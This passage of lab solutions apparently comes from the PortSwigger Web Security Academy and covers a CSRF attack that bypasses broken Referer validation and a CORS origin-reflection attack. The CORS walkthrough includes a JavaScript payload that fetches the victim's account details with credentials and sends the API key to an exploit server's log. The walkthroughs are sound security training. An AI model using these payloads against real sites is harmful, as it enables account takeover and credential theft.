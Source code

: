 ### Lab: CSRF with broken Referer validation

1.  With your browser proxying traffic through Burp Suite, log in to your account, submit the "Update email" form, and find the resulting request in your Proxy history.
2.  Send the request to Burp Repeater. Observe that if you change the domain in the Referer HTTP header, the request is rejected.
3.  Copy the original domain of your lab instance and append it to the Referer header in the form of a query string. The result should look something like this:  
    `Referer: https://arbitrary-incorrect-domain.net?your-lab-id.web-security-academy.net`
4.  Send the request and observe that it is now accepted. The website seems to accept any Referer header as long as it contains the expected domain somewhere in the string.
5.  Create a CSRF proof of concept exploit as described in the solution to the [CSRF vulnerability with no defenses](https://portswigger.net/web-security/csrf/lab-no-defenses) lab and host it on the exploit server. Edit the JavaScript so that the third argument of the `history.pushState()` function includes a query string with your lab instance URL as follows:  
    `history.pushState("", "", "/?your-lab-id.web-security-academy.net")  
    `This will cause the Referer header in the generated request to contain the URL of the target site in the query string, just like we tested earlier.
6.  If you store the exploit and test it by clicking "View exploit", you may encounter the "invalid Referer header" error again. This is because many browsers now strip the query string from the Referer header by default as a security measure. To override this behavior and ensure that the full URL is included in the request, go back to the exploit server and add the following header to the "Head" section:  
    `Referrer-Policy: unsafe-url  
    `Note that unlike the normal Referer header, the word "referrer" must be spelled correctly in this case.
7.  Store the exploit, then click "Deliver to victim" to solve the lab.

## Cross-origin resource sharing (CORS)

### Lab: CORS vulnerability with basic origin reflection

1.  With your browser proxying through Burp Suite, turn intercept off then log in and access your account page.
2.  Review the history and observe that your key is retrieved via an AJAX request to `/accountDetails`, and the response contains the `Access-Control-Allow-Credentials` header suggesting that it may support CORS.
3.  Send the request to Burp Repeater, and resubmit it with the added header: `Origin: https://example.com`
4.  Observe that the origin is reflected in the `Access-Control-Allow-Origin` header.
5.  In your browser, go to the exploit server and enter the following HTML, replacing `$url` with your unique lab URL:  
    `<script>  
       var req = new XMLHttpRequest();  
       req.onload = reqListener;  
       req.open('get','$url/accountDetails',true);  
       req.withCredentials = true;  
       req.send();  
      
       function reqListener() {  
           location='/log?key='+this.responseText;  
       };  
    </script>`
6.  Click "View exploit". Observe that the exploit works - you have landed on the log page and your API key is in the URL.
7.  Go back to the exploit server and click "Deliver exploit to victim".
8.  Click "Access log", retrieve and submit the victim's API key to complete the lab.
